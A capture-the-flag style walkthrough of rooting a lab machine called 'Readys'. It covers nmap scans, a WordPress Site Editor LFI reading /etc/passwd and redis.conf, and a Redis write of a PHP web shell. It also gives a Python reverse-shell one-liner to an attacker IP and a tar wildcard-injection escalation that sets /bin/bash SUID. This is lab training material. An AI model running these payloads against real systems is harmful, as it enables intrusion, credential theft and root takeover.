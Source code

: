 First enumeration with nmap

`nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Mon Jan  2 14:49:53 2023 as: nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn 192.168.202.166
Nmap scan report for 192.168.202.166                                                                                                                                   
Host is up (0.22s latency).                                                                                                                                            
Not shown: 65164 closed tcp ports (conn-refused), 368 filtered tcp ports (no-response)                                                                                 
PORT     STATE SERVICE                                                                                                                                                 
22/tcp   open  ssh                                                                                                                                                     
80/tcp   open  http                                                                                                                                                    
6379/tcp open  redis                                                                                                                                                   
                                                                                                                                                                       
Read data files from: /usr/bin/../share/nmap                                                                                                                           
# Nmap done at Mon Jan  2 14:51:41 2023 -- 1 IP address (1 host up) scanned in 108.56 seconds   
```

Good we have few ports open, let's use nmap default scripts to know what services are running on those ports.

```
# Nmap 7.93 scan initiated Mon Jan  2 14:53:39 2023 as: nmap -sC -sV -oN normal.tcp -p 22,80,6379 -Pn 192.168.202.166
Nmap scan report for 192.168.202.166
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
|_  256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-generator: WordPress 5.7.2
|_http-title: Readys &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.38 (Debian)
6379/tcp open  redis   Redis key-value store
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  2 14:54:15 2023 -- 1 IP address (1 host up) scanned in 35.83 seconds
```

now let's start by enumerating port 80 (http) first.

![image](https://user-images.githubusercontent.com/87468669/210389867-5ce82ff6-f173-4189-ab4d-52b9f0d1464f.png)

Nice it is running a wordpress cms, let's us wpscan to enumerate user,plugins,themes.

`wpscan --url http://192.168.108.166/ --enumerate p,t,u`

![image](https://user-images.githubusercontent.com/87468669/210390939-a6b8b368-ff77-4991-b240-4f6125ab54e0.png)

Great we got a plugin name... let's check searchsploit for exploit on that plugin `site editor`.

![image](https://user-images.githubusercontent.com/87468669/210391712-76a228b3-74b2-4ce0-ba53-ac3dbfa0f9c4.png)

Now we got an exploit, let's read it the poc. It is vuln to LFI.

```
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

![image](https://user-images.githubusercontent.com/87468669/210392775-307a3bc2-aa23-48d4-a001-efe8f31dec19.png)

Great we got LFI, I checked for log files, could not read, i was able to read the redis.conf file since we've got redis port open.

```
http://192.168.108.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf
```

![image](https://user-images.githubusercontent.com/87468669/210398846-ce108cfa-a352-47f4-9781-df3d99590d29.png)
 
Was able to read the redis auth password. Now let's enumerate the redis port.

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Readys]
└─$ redis-cli -h 192.168.108.166               
192.168.108.166:6379> auth Ready4Redis?
OK
192.168.108.166:6379> config set dir /dev/shm
OK
(1.19s)
192.168.108.166:6379> config set dbfilename shell.php
OK
(0.88s)
192.168.108.166:6379> set test "<?php system($_GET[cmd]); ?>"
OK
192.168.108.166:6379> save
OK
192.168.108.166:6379> 
```

logged in using the redis password found in the conf file through LFI. I uploaded the shell to the /dev/shm path since other paths was not writable. now lets check the shell.php file uploaded.

```
http://192.168.108.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/dev/shm/shell.php&cmd=id
```

![image](https://user-images.githubusercontent.com/87468669/210399841-50664af8-051c-4f07-bcf4-7d46fb0798a7.png)
 
 Great we got RCE, let's get a reverse shell... Ncat listener ready.
 
 ![image](https://user-images.githubusercontent.com/87468669/210399968-55af5c15-9e3d-4bb2-880f-1728bf413bad.png)

revshell payload ready

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.108",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/210400385-2e98d14f-22cc-4373-b19e-3eef4173a1cc.png)

Boom!!! we got shell as user alice, and stabiziled the shell. Let's escalate privs.

```
alice@readys:/home$ cat /etc/crontab 
*/3 * * * * root /usr/local/bin/backup.sh
alice@readys:/home$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
alice@readys:/home$
```

Checking the crontab, i found out that user root runs /usr/local/bin/backup.sh every 3mins, checking the content of the script shows that bin tar compresses every files in the /opt/backup dir. Now let's abuse this binary. 

```
alice@readys:/var/www/html$ echo "chmod +s /bin/bash" > shell.sh
alice@readys:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
alice@readys:/var/www/html$ echo "" > --checkpoint=1
alice@readys:/var/www/html$ 
alice@readys:/var/www/html$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
alice@readys:/var/www/html$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
alice@readys:/var/www/html$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
alice@readys:/var/www/html$
```

The binary tar is vulnurable to wildcard injection, i exploited it by creating an suid for /bin/bash.

![image](https://user-images.githubusercontent.com/87468669/210402756-b85d8f6a-d739-43be-b7cd-0fb08e2e3c29.png)

And Boom we got root!!!🤠😎
